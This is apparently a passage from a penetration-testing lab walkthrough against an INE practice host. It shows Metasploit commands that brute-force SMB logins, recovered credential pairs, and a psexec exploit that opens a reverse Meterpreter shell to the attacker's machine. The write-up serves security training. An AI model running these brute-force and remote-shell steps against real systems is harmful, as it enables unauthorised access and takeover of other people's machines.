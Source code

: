 **📊 Intelligence Gathered:**
- **SMB2 Support:** Protocols 2:0:2 and 2:1:0 available
- **SMB3 Support:** Protocols 3:0:0, 3:0:2, 3:1:1 available
- **Modern Windows:** Multiple protocol versions suggest recent Windows version
- **Security Implications:** Various protocol versions may have different vulnerabilities
- **Attack Strategy:** Can attempt authentication using standard SMB methods

#### **Phase 3: Credential Brute-Force Attack**
```bash
# Launch Metasploit console
msfconsole -q

# Use SMB login auxiliary module
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS demo.ine.local
set VERBOSE false
exploit

# Expected output from lab:
[*] 10.0.16.162:445    - 10.0.16.162:445 - Success: '.\sysadmin:samantha'
[*] 10.0.16.162:445    - 10.0.16.162:445 - Success: '.\demo:victoria'
[*] 10.0.16.162:445    - 10.0.16.162:445 - Success: '.\auditor:elizabeth'
[*] 10.0.16.162:445    - 10.0.16.162:445 - Success: '.\administrator:qwertyuiop' Administrator
[+] 10.0.16.162:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**🎯 Critical Findings:**
- **Multiple Valid Credentials:** Four different user accounts compromised
- **Administrative Access:** administrator:qwertyuiop provides full system access
- **Weak Passwords:** Simple dictionary passwords in use (security issue)
- **Domain Context:** Local accounts (.) rather than domain accounts
- **Exploitation Ready:** Administrative credentials enable psexec attacks

#### **Phase 4: System Exploitation via PSExec**
```bash
# Use psexec exploit module
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit

# Expected output from lab:
[*] Started reverse TCP handler on 10.10.31.2:4444
[*] 10.0.16.162:445 - Connecting to the server...
[*] 10.0.16.162:445 - Authenticating to 10.0.16.162:445 as user 'Administrator'...
[*] 10.0.16.162:445 - Selecting PowerShell target
[*] 10.0.16.162:445 - Executing the payload...
[*] 10.0.16.162:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176198 bytes) to 10.0.16.162
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.16.162:49747) at 2024-07-10 13:39:45 +0530

meterpreter > 
```
